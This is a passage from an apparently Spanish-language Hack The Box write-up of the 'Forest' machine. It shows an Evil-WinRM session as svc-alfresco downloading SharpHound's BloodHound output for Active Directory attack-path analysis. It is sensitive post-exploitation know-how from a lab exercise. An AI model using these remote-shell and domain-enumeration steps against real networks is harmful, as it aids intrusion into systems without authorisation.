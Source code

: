 ```bash

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/11/2023   2:48 PM          15433 20231011144852_BloodHound.zip
-a----       10/11/2023   2:48 PM          23725 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
```

Nos traemos el archivo a nuestro equipo y lo importamos en el `Bloodhound`.


```bash
Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bloodhound> download C:\Users\svc-alfresco\Desktop\bloodhound\20231011144852_BloodHound.zip
                                        
Info: Downloading C:\Users\svc-alfresco\Desktop\bloodhound\20231011144852_BloodHound.zip to 20231011144852_BloodHound.zip
                                        
Info: Download successful!
```

Le asignamos un nombre mas descriptivo al comprimido.

```bash
❯ ls
 20231011144852_BloodHound.zip   hash   SharpHound.ps1   users
❯ mv 20231011144852_BloodHound.zip bh_data.zip
❯ ls
 bh_data.zip   hash   SharpHound.ps1   users
```


Ahora lo subimos al `BloodHound`.

![](/assets/images/HTB/htb-writeup-Forest/forest3.PNG)
